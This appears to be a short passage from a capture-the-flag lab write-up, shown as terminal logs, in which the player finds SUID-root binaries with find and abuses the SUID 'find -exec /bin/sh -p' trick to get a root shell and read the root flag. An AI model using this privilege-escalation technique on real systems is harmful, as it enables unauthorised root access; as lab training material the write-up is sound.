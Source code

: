 ```
To check for new updates run: sudo apt update

Last login: Sun Jul  2 17:27:46 2023 from 10.10.83.109
zeamkish@ip-10-10-224-144:~$ ls
flag.txt  ssh_creds.txt
zeamkish@ip-10-10-224-144:~$ cat flag.txt
```

2. What is the root flag?

```
zeamkish@ip-10-10-224-144:~$ sudo -l
[sudo] password for zeamkish: 
Sorry, user zeamkish may not run sudo on ip-10-10-224-144.
zeamkish@ip-10-10-224-144:~$ find / -user root -perm -4000 -print 2>/dev/null
...
/usr/bin/nano
/usr/bin/su
/usr/bin/fusermount
/usr/bin/find
/usr/bin/mount
zeamkish@ip-10-10-224-144:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
root
# cd ..
# cd ..
# ls
'"'    boot   etc    lib     lib64    lost+found   mnt	 proc   run    snap   sys   usr
 bin   dev    home   lib32   libx32   media	   opt	 root   sbin   srv    tmp   var
# cd root
# ls
flag.txt  snap
# cat flag.txt
```